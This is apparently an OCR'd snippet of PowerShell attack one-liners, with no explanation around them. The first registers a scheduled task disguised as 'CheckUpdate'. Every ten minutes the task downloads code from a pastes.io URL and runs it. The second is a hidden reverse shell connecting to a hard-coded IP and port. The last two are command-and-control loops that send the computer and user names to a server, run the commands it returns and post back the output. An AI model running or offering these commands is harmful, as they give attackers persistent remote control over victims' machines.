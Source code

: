 $a = New-ScheduledTaskAction -Execute 'powershell' -Argument '$xmiIVnLMFYi252ep8GDIRkfZObTP0BtlQwNGfi7xQiKhfmQBpauiih3IuV3GDh651HEds7gD6c34nZ8hTaOFKBETEATzVDWozu9ryCvUoU61TAArt5mJLSzA35z8inXiWL2u7mLiODbnUJAa5fgQsoX7ouQrANhZnEHnTLTjGrobR8OBJG4IBgjlv1CBqAAc8jeSRYOP1qY241L2Ruy3RTIaTKmicq8S5RJx1Ibv6IdbW06pkPEO3rElUGoQGe72bzSADpc8VjIMglVA59oDo8OkgN3zdxpXdF0xD = Invoke-webrequest -URI https://pastes.io/raw/idqtzhsyfu -UseBasicParsing; Invoke-Expression $xmiIVnLMFYi252ep8GDIRkfZObTP0BtlQwNGfi7xQiKhfmQBpauiih3IuV3GDh651HEds7gD6c34nZ8hTaOFKBETEATzVDWozu9ryCvUoU61TAArt5mJLSzA35z8inXiWL2u7mLiODbnUJAa5fgQsoX7ouQrANhZnEHnTLTjGrobR8OBJG4IBgjlv1CBqAAc8jeSRYOP1qY241L2Ruy3RTIaTKmicq8S5RJx1Ibv6IdbW06pkPEO3rElUGoQGe72bzSADpc8VjIMglVA59oDo8OkgN3zdxpXdF0xD;'; $t = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 10); Register-ScheduledTask -Action $a -Trigger $t -TaskPath "CheckUpdate" -TaskName "CheckUpdate" -Description "Check update."

No pastebin, no pastes.io


Start-Process $PSHOME\powershell.exe -ArgumentList {$client = New-Object System.Net.Sockets.TCPClient('15.160.116.221',4443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()} -WindowStyle Hidden


$ConfirmPreference="None";$s='172.25.82.130:8080';$i='f639b4-cc9db1-01a24a';$p='http://';$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/f639b4/$env:COMPUTERNAME/$env:USERNAME -Headers @{"Authorization"=$i};for (;;){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/cc9db1 -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=Invoke-Expression $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$x=Invoke-RestMethod -Uri $p$s/01a24a -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}

$ConfirmPreference="None";$s='10.24.82.130:8080';$i='f639b4-cc9db1-01a24a';$p='http://';$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/f639b4/$env:COMPUTERNAME/$env:USERNAME -Headers @{"Authorization"=$i};for (;;){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/cc9db1 -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=Invoke-Expression $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$x=Invoke-RestMethod -Uri $p$s/01a24a -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}